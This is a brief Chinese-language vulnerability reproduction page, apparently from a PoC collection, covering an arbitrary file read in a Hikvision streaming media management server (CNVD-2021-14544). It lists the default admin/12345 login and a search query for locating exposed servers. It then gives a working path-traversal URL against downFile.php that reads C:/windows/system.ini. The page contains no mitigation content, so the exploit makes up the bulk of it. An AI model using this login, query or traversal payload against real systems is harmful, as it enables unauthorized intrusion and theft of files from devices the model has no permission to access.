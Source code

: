 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>HIKVISION 流媒体管理服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="流媒体管理服务器"</a-checkbox></br>

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/hiv-5.png)



POC如下，访问如下Url下载 system.ini文件



```plain
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/hiv-6.png)



成功读取 `C:/windows/system.ini`